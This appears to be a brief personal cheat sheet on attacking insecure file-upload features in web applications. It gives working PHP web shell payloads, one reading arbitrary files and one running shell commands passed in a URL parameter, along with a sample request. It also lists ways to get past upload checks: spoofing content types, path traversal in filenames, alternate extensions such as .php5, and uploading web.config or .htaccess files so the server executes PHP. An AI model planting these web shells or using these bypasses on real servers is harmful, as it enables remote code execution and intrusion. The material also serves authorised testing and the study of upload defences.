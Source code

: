 # file upload
when files are uploaded
and not checked

its possible to upload fe a webshell
and then acces the webshell

## uploads
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
xample/exploit.php?command=id HTTP/1.1

## formdata
sometimes it only checks if a content type is image/png or something
you can ez do it in burpsuite
or with js see "script/file_upload_blob.js" you could just execute this in console

## path traversal
sometimes using path traversal techniques can be used in the filename

## extensions
or filename extension of lesser known could be used
.php5
.shtml

## server side preventions
some config files are used to prevent access or execution of certain files
these might be interesting to try to retrieve if possible 
if we can upload these than we can even let files we are able to upload fe allow php to work

web.config:
`<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers>
            <!-- Add handler to process PHP files -->
            <add name="PHP-FastCGI" path="*.php" verb="*" modules="FastCgiModule" scriptProcessor="C:\path\to\php\php-cgi.exe" resourceType="Either" requireAccess="Script" />
        </handlers>
    </system.webServer>
</configuration>`


.htaccess:
`AddHandler application/x-httpd-php .php`

